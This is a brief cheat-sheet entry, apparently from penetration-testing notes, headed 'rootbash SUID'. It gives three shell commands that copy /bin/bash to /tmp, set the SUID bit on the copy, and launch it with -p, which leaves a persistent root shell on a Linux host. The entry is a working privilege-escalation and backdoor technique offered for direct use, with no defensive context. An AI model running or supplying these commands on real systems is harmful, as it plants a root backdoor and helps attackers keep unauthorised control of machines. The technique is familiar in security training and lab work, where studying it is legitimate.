 # rootbash SUID

if you have suid,create a copy of the /bin/bash or /bin/sh executable file (rename to somthing else) make sure its owned by root and has SUID bit set.

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
/tmp/./rootbash -p
```
